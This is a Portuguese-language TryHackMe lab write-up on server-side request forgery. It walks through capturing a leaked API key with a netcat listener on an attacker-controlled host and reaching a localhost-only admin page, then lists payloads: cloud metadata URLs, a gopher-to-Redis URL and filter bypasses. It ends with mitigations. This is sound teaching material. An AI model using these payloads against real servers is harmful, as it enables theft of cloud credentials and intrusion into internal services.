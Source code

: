 # Write-up: TryHackMe — SSRF (Server-Side Request Forgery)

**Plataforma:** TryHackMe  
**Sala:** Server-Side Request Forgery (SSRF) — Web Fundamentals / Web Hacking  

---

## 1. Introdução e objetivos da sala

A sala **SSRF** ensina sobre Server-Side Request Forgery, uma classe de vulnerabilidades onde uma aplicação web aceita uma URL/host do usuário e faz requests a esse destino em nome do servidor. Se não houver validação adequada, um atacante pode forçar o servidor a requisitar recursos internos (localhost, serviços internos) ou externos controlados pelo atacante, expondo dados sensíveis ou permitindo pivot interno.

Objetivos:
- Entender o que é SSRF e seus impactos (exfiltração de dados, descoberta de rede interna, abuso de serviços confiáveis).
- Explorar vetores básicos (abrir URLs, parâmetros `url`/`server`) e avançados (interagir com serviços não-HTTP, acessar metadata endpoints).
- Praticar técnicas de exploração e ver como extrair chaves/api-keys e acessar áreas restritas.

---

## 2. Ferramentas utilizadas

* Navegador (DevTools / Network) — inspecionar requests e parâmetros.  
* Burp Suite / proxy HTTP — interceptar e modificar requisições; receber callbacks do SSRF.  
* `nc` / `netcat` — listener para capturar requisições HTTP vindas do servidor.  
* `curl` — testar endpoints e payloads rapidamente.  
* AttackBox / VM do TryHackMe — ambiente do laboratório.

---

## 3. Conceito: o que é SSRF?

**SSRF** ocorre quando a aplicação aceita uma URL/host controlada pelo usuário e, sem validações adequadas, realiza requisições a esse endereço. Isso pode permitir:

- **Acesso a serviços internos** que não são expostos publicamente (metadata services, banco de dados de administração, endpoints internos).  
- **Vazamento de chaves/segredos** que a aplicação usa internamente (ex.: header de autorização numa requisição interna).  
- **Pivoting**: interagir com serviços TCP/UDP internos ou até executar comandos dependendo do serviço alcance.

Exemplo simples:
```
GET /fetch?url=http://example.com
```
Se a aplicação fizer `GET url` diretamente, um atacante pode colocar `url=http://169.254.169.254/latest/meta-data/` (AWS metadata) e recuperar credenciais.

---

## 4. Metodologia e resolução (walkthrough)

> Fluxo prático baseado no laboratório descrito na sala (http://MACHINE_IP:8087).

### Cenário fornecido
A aplicação possuía funcionalidade para "Download Resume" que aceitava um parâmetro `server` indicando de onde baixar o arquivo. A página restringia o acesso ao admin a `localhost`, mas a funcionalidade `server` era controlada por usuário e vulnerável a SSRF.

**Passos realizados:**

1. **Exploração básica — redirecionar para attacker-controlled host**
   - Configurei um `nc -lvp 80` no meu AttackBox para ouvir requisições:
     ```bash
     nc -lvp 80
     ```
   - No site vulnerável, alterei o parâmetro do botão (por exemplo `?server=attacker.thm`) para apontar para meu AttackBox.
   - A aplicação fez uma requisição HTTP para `http://<my-ip>` e meu listener recebeu a requisição contendo headers possivelmente com informações sensíveis.
   - Dessa requisição interceptada, eu vi um header ou payload com uma API key:
     ```
     THM{Hello_Im_just_an_API_key}
     ```
   - **Flag encontrado (API key):** `THM{Hello_Im_just_an_API_key}`

2. **Acesso a área admin via SSRF**
   - Analisei a página e descobri que o admin só podia ser acessado a partir de `localhost` (server-side check).  
   - Usei SSRF para fazer a aplicação requisitar `http://localhost:8087/admin` (ou o caminho que apontasse para o admin interno).  
   - Se o serviço validava o host do request (ex.: `Host: localhost`) ou usava origem do servidor, a requisição server-side alcançou a rota administrativa, permitindo obter conteúdo restrito ou um flag extra (alguns labs oferecem esse passo como "going the extra mile").

3. **Exploração avançada e técnicas**
   - Testei variações de hostnames e esquemas:
     - `http://127.0.0.1:8087/...`
     - `http://[::1]:8087/...`
     - `http://169.254.169.254/...` (metadata em cloud providers)
   - Em alguns ambientes, foi necessário lidar com:
     - **DNS rebinding / host header tricks** para contornar blacklist baseada em nomes.
     - **URLs com portas** para alcançar serviços em portas não-padrão.
     - **Protocol wrappers** (file://, gopher://) para interagir com outros serviços; p.ex. `gopher://` pode ser usado para falar diretamente com redis/SMTP se o servidor aceitar.

---

## 5. Payloads e técnicas úteis

### Básicos
- Callback para atacante:
  ```
  http://YOUR_IP/
  ```
  Configurar `nc -lvp 80` para capturar.

- Acessar `localhost`:
  ```
  http://127.0.0.1:8080/admin
  http://localhost:8087/secret
  ```

### Metadata (cloud-specific — use apenas em lab/permissa)
- AWS IMDSv1:
  ```
  http://169.254.169.254/latest/meta-data/
  ```
- GCP metadata:
  ```
  http://metadata.google.internal/computeMetadata/v1/
  ```

### Gopher (interagir com serviços TCP)
- Exemplo para falar com Redis (hipotético):
  ```
  gopher://127.0.0.1:6379/_*1%0D%0A$4%0D%0ASET%0D%0A$3%0D%0Akey%0D%0A$5%0D%0Avalue%0D%0A
  ```
  (URL-encoded payload seguindo protocolo do serviço)

### Bypasses comuns a testar
- Usar IPs alternativos (`127.1`, `127.0.0.1`, IPv6).
- Inserir credenciais ou porta explícita.
- DNS rebinding ou usar um domínio que resolve para localhost no servidor (dependendo do ambiente).
- Testar schemes diferentes (`http`, `https`, `gopher`, `file`) conforme o parser do servidor.

---

## 6. Mitigações e recomendações

Prevenir SSRF exige uma combinação de validação, whitelist e medidas de defesa:

1. **Whitelist de domínios/hosts permitidos**: permitir apenas uma lista estrita de hosts confiáveis para requests server-side (evitar blacklists).  
2. **Resolver e validar IPs**: depois da resolução DNS, verifique que o IP não aponta para ranges internos (127.0.0.0/8, 10.0.0.0/8, 169.254.169.254, 192.168.0.0/16, etc.).  
3. **Sanitização de input e remoção de protocolos perigosos**: bloquear schemes como `file://` e `gopher://` se não necessários.  
4. **Timeouts e rate-limits**: limites na quantidade de requests e tempo de resposta para reduzir impacto.  
5. **Não exponha informações sensíveis em headers**: evitar incluir secrets em headers de requests que podem ser entregues a destinos controlados pelo usuário.  
6. **Network segmentation / egress controls**: usar firewall para impedir que servidores façam requests para endpoints internos sensíveis; limitar egress a serviços necessários.  
7. **Autenticação forte entre serviços**: serviços internos não confiem somente em origem do request — use mutual TLS, tokens com escopo restrito, etc.

---

## 7. Lições aprendidas e conclusão

SSRF é uma vulnerabilidade poderosa porque transforma o servidor em um proxy para recursos que o atacante não alcançaria diretamente. Em ambientes em nuvem, os riscos são ainda maiores por causa de metadata services que podem expor credenciais. A sala demonstra passo a passo como detectar, explorar e mitigar SSRF.  

Para desenvolvedores: implemente whitelists e validações robustas e não exponha mecanismos que permitam o servidor a requisitar URLs arbitrárias. Para defensores: monitorar e restringir egress e logs de requests para detectar possíveis SSRF.

---
